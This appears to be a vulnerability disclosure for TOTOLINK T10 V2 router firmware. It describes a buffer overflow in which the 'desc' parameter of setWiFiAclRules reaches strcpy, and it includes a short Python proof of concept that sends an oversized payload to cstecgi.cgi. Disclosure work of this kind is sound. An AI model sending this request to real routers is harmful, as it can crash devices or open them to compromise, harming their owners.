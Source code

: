 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setWiFiAclRules` function. The `v8` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902123605993](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123605993.png)

![image-20240902123543507](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123543507.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiAclRules",
"addEffect":"1",
"mac":"111",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)

